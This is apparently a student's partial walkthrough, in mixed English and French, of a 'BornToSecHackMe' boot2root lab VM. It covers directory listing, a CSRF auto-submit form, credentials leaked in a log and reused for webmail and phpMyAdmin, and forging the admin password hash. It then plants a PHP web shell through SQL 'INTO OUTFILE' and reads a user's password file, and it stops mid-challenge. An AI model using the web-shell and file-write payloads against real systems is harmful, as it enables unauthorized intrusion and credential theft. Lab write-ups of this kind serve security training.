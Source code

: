 # Exploit the Forum

The forum can be access throught this URI: https://192.168.1.139:443/forum/

![img forum](/img/forum.png)

```bash
==> DIRECTORY: https://192.168.1.139:443/forum/

---- Entering directory: https://192.168.1.139:443/forum/ ----
==> DIRECTORY: https://192.168.1.139:443/forum/js/
==> DIRECTORY: https://192.168.1.139:443/forum/includes/
==> DIRECTORY: https://192.168.1.139:443/forum/js/
==> DIRECTORY: https://192.168.1.139:443/forum/lang/
==> DIRECTORY: https://192.168.1.139:443/forum/modules/
==> DIRECTORY: https://192.168.1.139:443/forum/templates_c/
==> DIRECTORY: https://192.168.1.139:443/forum/themes/
==> DIRECTORY: https://192.168.1.139:443/forum/update/
```

All of this directories are listable:

![img listable](/img/index-js.png)

https://192.168.1.139/forum/index.php?mode=register

mode=login&username=test&userpw=""

<form action="https://192.168.1.139/forum/index.php?mode=register" method="POST">
    <input type="hidden" name="username" value="test" />
    <input type="hidden" name="userpw" value="test" />
</form>
<script>
    document.forms[0].submit();
</script>

By reading the lmezard's post, we can't see this line:

```bash
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2the
```

Its seems to be a log, but the users did a mistake by passing his password instead of his username.

```bash
ssh admin@192.168.1.139 -p 22
Permission denied, please try again.
ssh nvdb@192.168.1.139 -p 22
Permission denied, please try again.
ssh adam@192.168.1.139 -p 22
Permission denied, please try again.
ssh guest@192.168.1.139 -p 22
Permission denied, please try again.
ssh lmezard@192.168.1.139 -p 22
Permission denied, please try again.
```

None of thos seems work. So i try with the website: Bingo !

Her personnal informations give us her mailaddress.

https://192.168.1.139:443/webmail/
laurie@borntosec.net !q\]Ej?*5K5cy*AJ mail

mail very interesting from : qudevide@mail.borntosec.net

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
https://192.168.1.139:443/phpmyadmin/

section forum_db on peut voit dans mlf2_userdata qu'on peut edit les users dont leurs mot de passes hached 

manque plus qu'a savoir comment c'est hash, pour ca direction le code src du projet et bingo :

function generate_pw_hash($pw)
 {
  $salt = random_string(10,'0123456789abcdef');
  $salted_hash = sha1($pw.$salt);
  $hash_with_salt = $salted_hash.$salt;
  return $hash_with_salt;
 }

 on le replique en python : 
 python3 -c "import hashlib, random, string; salt = ''.join(random.choice(string.hexdigits) for _ in range(10)); pw = 'admin'; print(hashlib.sha1((pw + salt).encode()).hexdigest() + salt)"

755d3fc8e359cdc8d958882ef0c5b28d608832b436CBA99CCF

on modifie le hash de l'admin et bingo on peut se co avec 
admin admin

SELECT '<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET["cmd"]) {system($_GET["cmd"]);} ?></pre></BODY></HTML>'
INTO OUTFILE '/var/www/forum/templates_c/cmd.php'

https://192.168.1.139/forum/templates_c/cmd.php

ls /home
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

ls /home/LOOKATME
password

cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"

login with lmezard on the virtual machine

cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh

main function call 12 fucntion which return a char. Then SHA-256 to get the passwd

I..a...wnage